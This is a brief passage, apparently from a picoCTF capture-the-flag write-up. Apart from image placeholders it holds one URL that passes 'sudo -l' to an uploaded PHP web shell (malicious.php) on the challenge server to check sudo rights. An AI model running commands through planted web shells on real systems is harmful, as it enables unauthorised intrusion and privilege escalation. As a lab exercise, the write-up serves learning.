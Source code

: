 ![Test Command Execution](images/2nd6.png)


When we enter: 

```
http://standard-pizzas.picoctf.net:54419/uploads/malicious.php?cmd=sudo -l
```

![Test Command Execution](images/2nd7.png)
